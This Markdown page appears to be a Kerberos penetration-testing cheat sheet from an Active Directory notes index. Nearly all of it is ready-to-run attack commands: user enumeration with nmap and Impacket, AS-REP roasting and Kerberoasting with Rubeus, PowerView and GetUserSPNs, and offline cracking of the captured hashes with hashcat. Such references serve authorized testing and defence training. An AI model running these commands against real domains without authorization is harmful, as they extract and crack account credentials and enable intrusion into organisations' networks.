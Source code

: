 # Index
- [[Microsoft Active Directory (AD)]]
	- [[Active Directory Cheat Sheet]]
	- [[Kerberos Cheat Sheet]]
	- [[LDAP Cheat Sheet]]
	- [[MSSQL Cheat Sheet]]
	- [[PowerShell Active Directory Cheat Sheet]]

Kerberos Penetration Testing Cheat Sheet

# Penetration Testing Techniques

## External Reconnaissance

#### Enumerate Domain Controllers
- **nmap**:
  ```bash
  nmap -p 88 --script "krb5-enum-users" -v -oA krb5-enum <target_ip>
  ```
- **GetUserSPNs.py (Impacket)**:
  ```bash
  GetUserSPNs.py <domain>/<username>:<password>@<target_ip> -dc-ip <target_ip> -request
  ```

## Initial Access

#### Kerberos Pre-Authentication Attacks (AS-REP Roasting)
- **Rubeus (AS-REP Roasting)**:
  ```powershell
  Rubeus.exe asreproast /user:<username>
  ```
  Crack the obtained hash:
  ```bash
  hashcat -m 18200 <asrep_hash> /path/to/wordlist.txt
  ```

## Privilege Escalation

#### Kerberoasting
- **Invoke-Kerberoast (PowerView)**:
  ```powershell
  Invoke-Kerberoast -OutputFormat Hashcat | Out-File kerberoast.txt
  ```
- **Rubeus (Kerberoasting)**:
  ```powershell
  Rubeus.exe kerberoast
  ```
- **GetUserSPNs.py (Impacket)**:
  ```bash
  GetUserSPNs.py <domain>/<username>:<password>@<target_ip> -dc-ip <target_ip> -request
  ```
  Crack the extracted service ticket hash:
  ```bash
  hashcat -m 13100 <hash> /path/to/wordlist.txt
  ```
